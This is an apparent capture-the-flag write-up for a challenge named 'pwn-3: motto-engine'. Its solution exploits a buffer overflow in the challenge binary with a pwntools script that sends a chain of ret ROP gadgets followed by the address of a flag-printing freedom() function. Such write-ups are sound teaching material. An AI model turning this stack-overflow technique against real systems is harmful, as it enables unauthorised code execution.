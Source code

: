 # pwn-3: motto-engine

<img src="images/pwn-3.jpg"></img>

## Prompt 

The **Ministry** is always on the lookout for new mottos. The **Ministry of Truth** provides you the attached linux binary to exploit. It is also running on a remote server where it protects the truth in a file called flag.txt. Capture the flag from the remote server. Big brother grants you the following code to connect to the remote server.

```python
from pwn import * 
p=remote("bigbrother-pwn-3.chals.io", 443, ssl=True, sni="bigbrother-pwn-3.chals.io")
p.interactive()
```

## Solution

This program suffers a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow). Instead of finding the exact offset of the overflow, we can use a trick to pad the stack with ``ret`` ROP gadgets that will just return to the stack if executed. 

We can can find the ret gadget using [ropper](https://github.com/sashs/Ropper). 

```
ropper -f ./chal.bin
...
0x0000000000401016: ret;
```

We can then write a script to send the ``ret`` gadgets followed by the address of the ``freedom()`` function that displays the flag. 

```python
from pwn import *

p=remote("bigbrother-pwn-3.chals.io", 443, ssl=True, sni="bigbrother-pwn-3.chals.io")

ret     = 0x401016 
freedom = 0x40145d
 
chain = p64(ret)*11
chain += p64(freedom)

p.sendlineafter(b'>>>',chain)

p.interactive()

```
